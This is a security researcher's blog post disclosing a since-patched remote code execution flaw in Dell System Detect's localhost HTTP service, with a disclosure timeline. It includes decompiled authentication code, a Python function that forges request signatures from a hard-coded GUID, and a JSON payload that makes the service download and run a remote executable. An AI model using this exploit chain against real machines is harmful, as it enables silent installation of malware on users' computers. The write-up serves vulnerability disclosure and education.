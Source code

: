 ```yaml
---
title: "Dell System Detect RCE vulnerability"
date: 2015-03-23 15:16:10.058935
permalink: /dell-system-detect-rce-vulnerability
tags:
   - security
---
```


I recently discovered a serious flaw with Dell System Detect that allowed an attacker to trigger the program to download and execute an arbitrary file without any user interaction. Below is a summary of the issue and the steps taken to bypass the protections Dell put in place.

*Timeline:*

The issue was fixed within two months and Dell were clear in their communications throughout.

   * 11/11/2014 - Contacted Dell about the issue and received an acknowledgement
   * 14/11/2014 - Received confirmation that Dells Internal Assessment team is investigating
   * 9/1/2015 - Dell state that they have fixed the issue by introducing additional validation and obfuscation
   * 10/1/2015 - Checked patched program and could not reproduce this exploit
   * 23/3/2015 - This post is published

### Summary
Anyone who has owned a Dell will be familiar with the [Dell Support page](http://www.dell.com/support/). You can get all the latest drivers for your exact machine configuration from this site by entering your Dell Service Tag, which can be found on a sticker somewhere on your machine or through clicking the shiny blue "Detect Product" button.

![](./2014-12-15_20_57_40-_HR3AJAFL.png)

Clicking this button prompts you to download and install the "Dell System Detect" program, which is used to auto fill the service tag input and show you the relevant drivers for your machine.

While investigating this rather innocuous looking program I discovered that it accepts commands by listening for HTTP requests on *localhost:8884* and that the security restrictions Dell put in place are easily bypassed, meaning an attacker could trigger the program to download and install any arbitrary executable from a remote location with no user interaction at all.

### The interesting bit
If you click the button you are prompted to download and install the "Dell System Detect" program which conspicuously sits in your taskbar and starts itself with your machine. So this program is clearly part of the process of autodetecting the service tag, but how does the browser page communicate with it? You can use Chrome's excellent developer tools to view the network traffic of the page and see that it makes several requests to a service listening on localhost port 8884:

![](./http_connect_U47J6VNA.png)

Ok, so it seems that the Dell System Detect runs a HTTP server that listens for requests, which are sent from the Dell Support page's JavaScript. So let's take a closer look at the program - it's a .NET 2.0 executable and can be completely decompiled with [dotPeek](https://www.jetbrains.com/decompiler/) into a set of Visual Studio solutions. A quick search through the code for "http" brings us to *eSupport.Common.Client.Service.RequestHandlers.ProcessRequest* which is responsible for processing a request through the processes HTTP port. Below is an abbreviated snippet showing how this function authenticates that requests come from a valid Dell domain:

```csharp
public void ProcessRequest(HttpListenerContext context)
{
    String url = "";
    if (context.Request.UrlReferrer == null) url = context.Request.Headers["Origin"];
    else url = context.Request.UrlReferrer.AbsoluteUri;

    if (absoluteUri.Contains("dell"))
    {
        if (context.Request.HttpMethod == "GET")
          this.HandleGet(context);
        else if (context.Request.HttpMethod == "POST")
          this.HandlePost(context);
        ...
    }
}
```

So that's our first issue: the program attempts to verify that the request is sent from a Dell domain by only checking if "dell" is in either the HTTP Referrer or Origin headers. Why is this a problem? **The HTTP Referrer can contain the *full* request URI** including the host and path. This means an attacker could easily make a request with an origin of "http://hacker.com/dell" and this would pass the initial test as "dell" is in the string. 

Armed with this information we can make requests to the program that are at least partially processed. Inside each of the method handlers (*HandleGet*, *HandlePost*) there is a fair bit of messy code, but below is a simplified version:

```csharp
private void HandleGet(HttpListenerContext context)
{
  string[] urlParts = context.Request.Url.AbsolutePath.Split('/');
  MethodInfo method = FindService(urlParts[0]), urlParts[1]);

  string signature = context.Request.QueryString["signature"];
  string str3 = context.Request.QueryString["expires"];
  bool verified = new AuthenticationHandler().Authenticate(urlParts[0], urlParts[1], str3, signature);
  if (!verified) return Error()

  var result = method.Invoke(GetParameters(context.Request));
  return MakeResponse(result);
}
```

This function splits the request URL by the slash and uses the first two components to find the correct service to execute. In the Chrome screenshot above we see that the web page is making a request to **clientservice/isalive**, which means the program will execute the **isalive** method in the **clientservice** service.

After the service has been found it inspects two query string parameters, *signature* and *expires*, and passes them to the *Authenticate* method. If this passes then the service is invoked with other query string parameters as arguments.

It seems obvious by now that the program does a little bit more than simply retrieve your service tag, so before we look into the *Authenticate* method let's see what interesting things we can do.

### Services
There are three services that can be used: **diagnosticservice**, **downloadservice** and **clientservice**. Within these are 25 methods, including *getservicetag*, *getdevices*, *getsysteminfo*, *checkadminrights* and *downloadfiles*. It seems that the entire Dell system support package is included with System Detect, meaning if we can bypass the authentication then we can trigger any of these methods.

The most interesting method is called **downloadandautoinstall**, which does exactly what it says on the tin.

```csharp
[ServiceName("downloadservice")]
public class DownloadServiceLogic
{
    [RemoteMethodName("downloadandautoinstall")]
    public static ServiceResponse DownloadAndAutoInstall(string files)
    {
        // Download and execute URL's passed in the files parameter without prompting the user
    }
}
```

If we can bypass the *Authenticate* method then we can trigger this function which will download and execute whatever file we tell it to by making a request to **http://localhost:8884/downloadservice/downloadandautoinstall**. So lets take a look at the authenticate method which is the only thing stopping us:

```csharp
public bool Authenticate(string service, string method, string expiration, string signature)
{
    var secret = string.Format("{0}_{1}_{2}_{3}", service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85");
    var hash = new SHA256Managed().ComputeHash(Encoding.UTF8.GetBytes(secret));

    string stringToEscape = Convert.ToBase64String(hash).TrimEnd('=');
    bool flag = stringToEscape.ToLower() == signature.ToLower() || Uri.EscapeDataString(stringToEscape).ToLower() == signature.ToLower();
    if (!flag)
        ErrorLog.WriteLog("Not authenticated");
    return flag;
}
```

Wow. Ok, so not exactly the hardest thing to break. The service, method, expiration and signature arguments are all attacker controlled and passed through GET arguments. The only thing not controlled by a remote attacker is the hard-coded GUID *"2f68-48be-a09a-9f9b6424ad85"*.

Essentially all the function does is create a string with the arguments and the GUID then compare it with the one the user has given, and if it is a match the user is 'authenticated'. With this information in hand we can create a simple Python function to generate a valid signature:

```python
def make_signature(service, method):
    expiration = int(time.time()) + 400000

    secret_string = "{}_{}_{}_{}".format(
        service, method, expiration, "37d42206-2f68-48be-a09a-9f9b6424ad85"
    )

    hashed = hashlib.sha256(unicode(secret_string, "utf-8"))
    print("Secret: {}".format(secret_string))
    print("Hash: {}".format(hashed.hexdigest()))
    return expiration, base64.encodestring(hashed.digest()).rstrip(b"\n").rstrip(b"=")
```

If we can generate a valid token then we can trigger the "downloadandautoinstall" method with our arbitrary file by causing the user to make a GET request, which is very very easy to do. A simple way would be to embed an image in a web page with the source set to "http://localhost:8884/downloadservice/downloadandautoinstall" with the appropriate GET arguments. After some investigation it seems that the DownloadAutoInstall method needs a list of JSON strings containing information about files to download and install. Sending a JSON object like the following with a valid signature will trigger a download:

```python
{
    "Name": "messbox.exe",
    "InstallOrder": 1,
    "IsDownload": True,
    "IsAutoInstall": True,
    "Location": "http://www.greyhathacker.net/tools/messbox.exe"
}
```


### Conclusion
So in conclusion we can make anyone running this software download and install an arbitrary file by triggering their web browser to make a request to a crafted *localhost* URL. This can be achieved a number of ways, and the service will faithfully download and execute our payload without prompting the user.

I don't think Dell should be including all this functionality in such a simple tool and should have ensured adequate protection against malicious inputs. After contacting Dell and discussing the issue with their internal security team they pushed out a fix that included obfuscating the downloaded binary. While I cannot be sure I think they simply changed the conditional from "if dell in referrer" to "if dell in referrer domain name", which may be slightly harder to exploit but just as severe. There is now also a big agreement you have to accept before downloading that specifies what the software can do.

    